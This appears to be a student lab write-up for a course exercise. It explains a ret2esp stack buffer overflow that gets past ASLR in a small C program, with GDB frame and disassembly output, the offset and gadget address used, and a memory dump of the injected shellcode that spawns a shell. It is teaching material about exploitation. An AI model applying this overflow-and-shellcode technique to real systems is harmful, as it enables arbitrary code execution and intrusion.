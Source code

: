 # Question 7: Rigel Write-up
## Main Idea
#### (A description of the vulnerability)
This code is vulnerable because it contains the address of ```jmp    *%esp``` inside the ```magic``` function which reveals the secret ingredient to ```ret2esp``` attack. 

Address space layout randomization (ASLR) is enabled, however, we were able to get around it with ```ret2esp``` attack.

## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)
We first determined the address of ```buf``` (0xffe8d588) and the address of rip of ```orbit``` function (0xffe8d59c). This was done by invoking GDB and setting a breakpoint at line 13. 
```
(gdb) i f
Stack level 0, frame at 0xffe8d5a0:
 eip = 0x804922a in orbit (orbit.c:13); saved eip = 0x8049247
 called by frame at 0xffe8d5b0
 source language c.
 Arglist at 0xffe8d598, args:
 Locals at 0xffe8d598, Previous frame's sp is 0xffe8d5a0
 Saved registers:
  ebp at 0xffe8d598, eip at 0xffe8d59c
(gdb) x/16x buf
0xffe8d588:     0x00000000      0x00000000      0x00000000      0x00000000
0xffe8d598:     0xffe8d5a8      0x08049247      0x00000001      0x0804923c
0xffe8d5a8:     0xffe8d62c      0x08049415      0x00000001      0xffe8d624
0xffe8d5b8:     0xffe8d62c      0x0804a000      0x00000000      0x00000000
```
ASLR randomizes the addresses, however, the relative distance between the rip of ```orbit``` function and ```buf``` stays the same. By finding out the addresses, we learned that ```buf``` is 20 bytes below rip of ```orbit``` (0xffe8d59c - 0xffe8d588 = 14 in hex = 20 in decimal).

We then determined the address of ```jmp *%esp``` (0x080491fd). This was done through invoking GDB and using gdb command ```disas```.
```
(gdb) disas magic
Dump of assembler code for function magic:
   0x080491e5 <+0>:     push   %ebp
   0x080491e6 <+1>:     mov    %esp,%ebp
   0x080491e8 <+3>:     mov    0xc(%ebp),%eax
   0x080491eb <+6>:     shl    $0x3,%eax
   0x080491ee <+9>:     xor    %eax,0x8(%ebp)
   0x080491f1 <+12>:    mov    0x8(%ebp),%eax
   0x080491f4 <+15>:    shl    $0x3,%eax
   0x080491f7 <+18>:    xor    %eax,0xc(%ebp)
   0x080491fa <+21>:    orl    $0xe4ff,0x8(%ebp)
   0x08049201 <+28>:    mov    0xc(%ebp),%ecx
   0x08049204 <+31>:    mov    $0x3e0f83e1,%edx
   0x08049209 <+36>:    mov    %ecx,%eax
   0x0804920b <+38>:    mul    %edx
   0x0804920d <+40>:    mov    %edx,%eax
   0x0804920f <+42>:    shr    $0x4,%eax
   0x08049212 <+45>:    imul   $0x42,%eax,%edx
   0x08049215 <+48>:    mov    %ecx,%eax
   0x08049217 <+50>:    sub    %edx,%eax
   0x08049219 <+52>:    mov    %eax,0xc(%ebp)
   0x0804921c <+55>:    mov    0x8(%ebp),%eax
   0x0804921f <+58>:    and    0xc(%ebp),%eax
   0x08049222 <+61>:    pop    %ebp
   0x08049223 <+62>:    ret
End of assembler dump.
(gdb) x/i 0x080491fd
   0x80491fd <magic+24>:        jmp    *%esp
```

## Exploit Structure
#### (A description of your exploit structure)
This exploit has three parts:
1. Write 20 bytes of dummy characters to overwrite the ```buf```, compiler padding and sfp of ```orbit```.
2. Overwrite the rip of ```orbit``` with the address of ```jmp    *%esp```. This will direct the program to the esp which moves to address right after the rip of ```orbit```. 
3. Insert the shellcode right after the rip of ```orbit```.
This causes the shellcode to run after it returns from the ```orbit``` function.

## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)
When we ran GDB after inputting the malicious exploit string, we got the following output:
```
(gdb) x/16x buf
0xffa308c8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffa308d8:     0x41414141      0x080491fd      0xcd58326a      0x89c38980
0xffa308e8:     0x58476ac1      0xc03180cd      0x2f2f6850      0x2f686873
0xffa308f8:     0x546e6962      0x8953505b      0xb0d231e1      0x0080cd0b
```
After 20 bytes of garbage is the address of ```jmp    *%esp``` instruction which directs the program to esp where our shellcode is inserted. 